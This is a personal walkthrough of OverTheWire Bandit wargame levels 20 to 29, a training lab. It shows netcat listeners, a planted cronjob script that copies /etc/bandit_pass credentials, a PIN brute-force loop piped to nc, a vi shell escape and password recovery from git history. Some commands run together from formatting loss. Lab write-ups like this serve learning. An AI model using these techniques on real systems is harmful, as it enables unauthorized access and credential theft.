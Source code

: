 ### **Bandit Level 20 → 21**

In this level, I had to use **two terminals**:

*   nc -lvnp 4444
    
*   ./suconnect 4444
    
*   Then, in the **first terminal**, I sent the password of the current level and received the password for the next one.
    

### **Bandit Level 21 → 22**

A cronjob was running a script called cronjob\_bandit22.sh, which copies the password of bandit22 into the file:

/tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv   

I simply ran:
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv   

...and got the password.

### **Bandit Level 22 → 23**

A script runs periodically:

#!/bin/bash 
 myname=$(whoami)
 mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1) 
 echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"  
 cat /etc/bandit_pass/$myname > /tmp/$mytarget   

I figured out the hash used to name the output file:
 echo I am user bandit23 | md5sum | cut -d ' ' -f1   

Then I just:

cat /tmp/result   

### **Bandit Level 23 → 24**

A cronjob checks a specific directory for any files owned by bandit23. If it finds one, it executes it and deletes everything.

I did the following:

1.  mkdir /tmp/yousfi\_23cd /tmp/yousfi\_23
    
2.  touch password.txtchmod a+w password.txt
    
3.  echo '#!/bin/bash' > script.shecho 'cat /etc/bandit\_pass/bandit24 > /tmp/yousfi\_23/password.txt' >> script.shchmod a+x script.sh
    
4.  Moved the script to the monitored directory.
    

Eventually, the script ran and dumped the password into password.txt.

### **Bandit Level 24 → 25**

We need to brute-force a 4-digit PIN combined with the current password, sent to port **30002**.

Here's the script I used:
 #!/bin/bash 
  password=replace_with_bandit24_password 
   for pin in $(seq -w 0000 9999); do     
     	 echo "Trying PIN: $pin"  
         echo "$password $pin"  
   done | nc localhost 30002   

Eventually, the correct PIN returned the next password.

### **Bandit Level 25 → 26**

This one’s a trick: the terminal uses more, so we trick it into opening vi, then get a shell.

Steps:

1.  vi
    
2.  :set shell=/bin/bash:shell
    
3.  cat /etc/bandit\_pass/bandit26
    

### **Bandit Level 26 → 27**

Super straightforward.

*   ./bandit27-do cat /etc/bandit\_pass/bandit27
    

### **Bandit Level 27 → 28**

Just clone the git repo:

git clone ssh://bandit27git@localhost:2220/home/bandit27-git/repo   

Then read the README—the password is right there.

### **Bandit Level 28 → 29**

1.  Clone the repo as usual.
    
2.  git show
    

It reveals a commit that fixed a password leak—the leaked password is still in the diff.

### **Bandit Level 29 → 30**

1.  Clone the repo.
    
2.  git branch -a
    
3.  git checkout dev
    
4.  git show
    

And boom, password found.
